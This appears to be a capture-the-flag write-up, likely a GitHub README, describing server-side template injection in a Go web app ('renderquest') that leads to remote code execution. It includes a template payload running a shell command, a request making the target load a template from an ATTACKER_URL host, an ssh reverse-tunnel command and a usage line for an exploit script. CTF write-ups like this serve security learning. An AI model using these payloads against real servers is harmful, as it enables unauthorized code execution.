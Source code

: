 # GO SSTI > RCE 

## Website 

<img src= "renderquest.PNG">

## Description

So, the functionality of the application seems to load and render templates either locally or remotely, depending on the ?use_remote={true/false} parameter. This lead me to want to check for SSTI vulnerability. I was able to set up a test.go template on my server with the contents {{.FetchServerInfo "cd /;ls -la"}}. Once the server loaded and executed my template code, I recieved the contents of the / directory, revealing code execution Just for context this is a CTF. What type of vulnerabilities were displayed here?.

## Set Up

1. Burpsuite Repeater/collaborator(Testing): GET requests to /render?use_remote=true&page=https://ATTACKER_URL/test.go.
2. Apache2 server hosting test.go).
3. Setup file with SSTI payload:
   ```go
    {{.FetchServerInfo "cd /;ls -la"}}
5. Tunnel using `ssh -R 80:localhost:80 localhost.run -i /home/$user/.ssh/id_rsa`.

## Exploit

This Python script automates the exploitation of a server-side template injectiony in the web application. It sends a GET request to a specified vulnerable URL, loading and executing our attacker-controlled template on the target server, resulting in remote code execution. 
   ```python
   python script.py http://target-server.com http://attacker-server.com/attacker-template.txt

## More Information

[SSTI in GO](https://github.com/carlospolop/hacktricks/blob/master/pentesting-web/ssti-server-side-template-injection/README.md)

